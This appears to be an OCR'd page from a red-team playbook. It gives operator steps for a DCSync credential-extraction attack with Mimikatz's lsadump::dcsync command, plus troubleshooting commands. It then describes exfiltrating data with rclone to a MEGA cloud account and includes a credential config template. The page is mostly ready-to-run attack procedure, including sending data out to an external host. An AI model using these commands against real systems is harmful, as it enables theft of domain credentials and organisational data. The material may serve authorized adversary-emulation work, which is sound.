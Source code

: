 ## DCSync - via Mimikatz

The DCSync attack mimics normal replication behavior between DCs, allowing for remote extraction of credentials

Uses Mimikatz's lsadump::dcsync command

### Prerequisites

- Command execution in the context of an account with Active Directory replication rights
- User accounts to target
- Mimikatz binary (https://github.com/gentilkiwi/mimikatz)

### Guidance

```
mimikatz> lsadump::dcsync /domain:{{ domain }} /user:{{ target_username }}
```

### Troubleshooting

If Mimikatz is giving an error of `ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x00002105 (8453)`, try the following:

```
cmd> klist purge
cmd> gpupdate /force
```


# Exfiltration

## Exfiltration with rclone - Using MEGA

Rclone is a popular utility for managing, copying, and backing up files

MEGA is a cloud file storage application and is a supported storage backend for rclone

### Prerequisites

- rclone - https://rclone.org/downloads/
- A free account at mega.io
- MEGA credentials setup on systems at `C:\Users\{{ username }}\AppData\Roaming\rclone\rclone.conf` using the format:

```
[Mega]
type = mega
user = {{ mega_username }}
pass = {{ mega_pass }}
```

### Cleanup
